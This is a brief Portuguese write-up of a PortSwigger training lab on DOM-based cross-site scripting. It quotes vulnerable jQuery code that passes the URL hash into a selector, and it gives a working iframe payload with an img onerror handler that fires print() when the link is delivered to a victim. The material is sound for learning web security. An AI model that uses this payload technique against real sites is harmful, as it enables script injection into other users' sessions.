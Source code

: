 #ctf 

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event

A página tem uma função de hashchange que pega o que está depois do `#` na URL e scrolla para a seção.

```html
<script>
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
if (post) post.get(0).scrollIntoView();
});
</script>
```

É possível passar um script que vai ser executado para nós mesmos, porém se enviasse este link com o payload para um usuário, não seria executado. Isso porque o jQuery vai abrir a página, buscar pelo valor do hash e não vai encontrar, então nada vai acontecer.

Uma forma deste payload ser executado automaticamente é usando `iframe` na nossa página e mandar o link para o usuário. Para resolver o exercicio basta ir no **exploit server**, colar o payload no `body` e enviar o link para o usuário.

```html
<iframe src="https://ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

GG